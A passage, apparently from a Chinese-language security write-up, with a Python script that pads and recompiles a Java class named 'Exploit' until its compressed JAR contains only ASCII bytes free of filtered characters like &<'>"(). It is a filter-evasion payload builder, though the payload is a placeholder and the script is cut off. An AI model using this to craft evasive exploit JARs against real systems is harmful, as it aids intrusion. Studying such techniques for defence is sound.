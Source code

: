 ```java
}
```

使用上面作为模版代码，编写python脚本不断向paddingData字段填充垃圾数据，然后javac编译，最后计算class文件压缩之后是否符合条件。

```python
#!/usr/bin/env python
# autor: c0ny1
# date 2022-02-13
from __future__ import print_function

import time
import os
from compress import *

allow_bytes = []
disallowed_bytes = [38,60,39,62,34,40,41] # &<'>"()
for b in range(0,128): # ASCII
    if b in disallowed_bytes:
        continue
    allow_bytes.append(b)

if __name__ == '__main__':
    padding_char = 'A' # 填充的字符
    raw_filename = 'Exploit.class' # 原文件名
    zip_entity_filename = 'Exploit.class' # 压缩文件名
    jar_filename = 'ascii01.jar' # 保存文件名
    num = 1
    while True:
        # step1 动态生成java代码并编译
        javaCode = """
                java模版代码
                """
        padding_data = padding_char * num
        javaCode = javaCode.replace("{PADDING_DATA}", padding_data)

        f = open('Exploit.java', 'w')
        f.write(javaCode)
        f.close()
        time.sleep(0.1)

        os.system("javac -nowarn -g:none -source 1.5 -target 1.5 -cp jasper.jar Exploit.java")
        time.sleep(0.1)

        # step02 计算压缩之后的各个部分是否在允许的ASCII范围
        raw_data = bytearray(open(raw_filename, 'rb').read())
        compressor = ASCIICompressor(bytearray(allow_bytes))
        compressed_data = compressor.compress(raw_data)[0]
        crc = zlib.crc32(raw_data) % pow(2, 32)

        st_crc = struct.pack('<L', crc)
        st_raw_data = struct.pack('<L', len(raw_data) % pow(2, 32))
        st_compressed_data = struct.pack('<L', len(compressed_data) % pow(2, 32))
        st_cdzf = struct.pack('<L', len(compressed_data) + len(zip_entity_filename) + 0x1e)


        b_crc = isAllowBytes(st_crc, allow_bytes)
        b_raw_data = isAllowBytes(st_raw_data, allow_bytes)
        b_compressed_data = isAllowBytes(st_compressed_data, allow_bytes)
        b_cdzf = isAllowBytes(st_cdzf, allow_bytes)

        # step03 判断各个部分是否符在允许字节范围
        if b_crc and b_raw_data and b_compressed_data and b_cdzf:
```